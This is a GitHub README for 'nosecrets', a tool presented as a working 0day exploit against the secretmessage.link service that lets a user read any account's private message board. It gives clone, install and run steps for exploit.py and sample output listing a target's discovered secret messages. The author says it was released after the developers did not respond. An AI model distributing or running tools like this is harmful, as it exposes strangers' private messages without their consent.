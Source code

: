 # nosecrets 0day Exploit  - Working as of 8/28/22
https://www.secretmessage.link/ 0day exploit | read message board of any accounts<br>Devs didn't reply, no one's stopping me from releasing this then

![secretm](https://raw.githubusercontent.com/jmrcsnchz/nosecrets/main/secretm.png)

## Installation
```bash
git clone https://github.com/jmrcsnchz/nosecrets.git
```
```bash
pip3 install requests
```
```bash
pip3 install bs4
```

## Usage
```bash
cd nosecrets
```
```bash
python3 exploit.py
```

```
Target Link: > https://www.secretmessage.link/secret/xXXxXXXXXxxxX/
Secret Message 2021 | xxxxxxxxx - Secret Message 2021
[+] Target UID: 845504
Getting Messages.....
[+] Discovered 3 Secret Messages

(1) xxxxxxxxxxx
(2) xxxxxxxxxxxxxxxxxx
(3) xxxxxxxxxxxxxxxxxxxxxxxx
```
